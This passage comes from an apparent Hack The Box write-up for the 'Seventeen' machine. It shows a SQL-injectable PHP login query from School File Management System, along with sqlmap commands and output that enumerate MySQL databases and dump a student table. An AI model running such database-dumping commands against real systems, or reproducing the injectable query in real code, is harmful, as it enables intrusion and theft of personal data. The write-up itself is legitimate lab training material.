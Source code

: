 Indeed, SQLmap finds a blind injection and dumps the whole database!

`../oldmanagement/files/avatar.png` is most likely another website: it works on the port 8000.

### SFMS

`http://seventeen.htb:8000/oldmanagement/` is running "School File Management System", which has a [reported SQLi][sfms-sqli] too, on the admin page:

![][sfms-admin-login]

Indeed, the source code is available and we can see it in `login_query.php`:

```php
$query = mysqli_query($conn, "SELECT * FROM `user` WHERE `username` = '$username' && `password` = '$password'") or die(mysqli_error());
```

```shell
sqlmap -r oldmanagement.admin.request --level=5 --risk=3 --dbms=mysql -p username --dump --batch
```

But SQLmap doesn't find it... The student login should be vulnerable too, but it doesn't work either.

Actually, the original SQLi should give access to the databases for the other websites:

```shell
sqlmap -r /tmp/take_exam.request --level=5 --risk=3 -p id --dbms=mysql --current-user --current-db --passwords --schema
# [14:13:15] [INFO] fetching tables for databases: 'db_sfms, erms_db, information_schema, roundcubedb'
# [14:20:05] [INFO] fetched tables: 'roundcubedb.dictionary', 'roundcubedb.identities', 'roundcubedb.contacts', 'roundcubedb.searches', 'roundcubedb.contactgroups', 'roundcubedb.cache_index', 'roundcubedb.cache_messages', 'roundcubedb.cache_shared', 'roundcubedb.users', 'roundcubedb.session', 'roundcubedb.contactgroupmembers', 'roundcubedb.cache', 'roundcubedb.system', 'roundcubedb.cache_thread', 'erms_db.option_list', 'erms_db.category_list', 'erms_db.system_info', 'erms_db.users', 'erms_db.exam_list', 'erms_db.question_list', 'information_schema.INNODB_SYS_FOREIGN_COLS', 'information_schema.TABLE_PRIVILEGES', 'information_schema.TRIGGERS', 'information_schema.INNODB_BUFFER_PAGE_LRU', 'information_schema.ENGINES', 'information_schema.INNODB_FT_DEFAULT_STOPWORD', 'information_schema.TABLESPACES', 'information_schema.PLUGINS', 'information_schema.INNODB_TRX', 'information_schema.SESSION_STATUS', 'information_schema.INNODB_CMP', 'information_schema.INNODB_FT_DELETED', 'information_schema.INNODB_METRICS', 'information_schema.OPTIMIZER_TRACE', 'information_schema.VIEWS', 'information_schema.INNODB_SYS_FIELDS', 'information_schema.INNODB_SYS_INDEXES', 'information_schema.INNODB_FT_INDEX_CACHE', 'information_schema.SCHEMA_PRIVILEGES', 'information_schema.SCHEMATA', 'information_schema.COLLATIONS', 'information_schema.INNODB_CMPMEM', 'information_schema.INNODB_FT_CONFIG', 'information_schema.INNODB_FT_INDEX_TABLE', 'information_schema.COLUMN_PRIVILEGES', 'information_schema.KEY_COLUMN_USAGE', 'information_schema.USER_PRIVILEGES', 'information_schema.INNODB_SYS_FOREIGN', 'information_schema.INNODB_SYS_DATAFILES', 'information_schema.CHARACTER_SETS', 'information_schema.COLLATION_CHARACTER_SET_APPLICABILITY', 'information_schema.INNODB_BUFFER_POOL_STATS', 'information_schema.INNODB_CMPMEM_RESET', 'information_schema.EVENTS', 'information_schema.INNODB_SYS_TABLES', 'information_schema.PARAMETERS', 'information_schema.REFERENTIAL_CONSTRAINTS', 'information_schema.INNODB_FT_BEING_DELETED', 'information_schema.TABLE_CONSTRAINTS', 'information_schema.GLOBAL_VARIABLES', 'information_schema.INNODB_SYS_COLUMNS', 'information_schema.INNODB_CMP_PER_INDEX', 'information_schema.INNODB_TEMP_TABLE_INFO', 'information_schema.TABLES', 'information_schema.PROFILING', 'information_schema.ROUTINES', 'information_schema.PARTITIONS', 'information_schema.INNODB_LOCKS', 'information_schema.INNODB_SYS_TABLESPACES', 'information_schema.INNODB_SYS_VIRTUAL', 'information_schema.INNODB_CMP_RESET', 'information_schema.STATISTICS', 'information_schema.INNODB_BUFFER_PAGE', 'information_schema.COLUMNS', 'information_schema.INNODB_LOCK_WAITS', 'information_schema.INNODB_SYS_TABLESTATS', 'information_schema.INNODB_CMP_PER_INDEX_RESET', 'information_schema.FILES', 'information_schema.PROCESSLIST', 'information_schema.SESSION_VARIABLES', 'information_schema.GLOBAL_STATUS', 'db_sfms.student', 'db_sfms.user', 'db_sfms.storage'
sqlmap -r /tmp/take_exam.request --level=5 --risk=3 -p id --dbms=mysql -D db_sfms -T student --dump
# +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
# | stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
```

[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png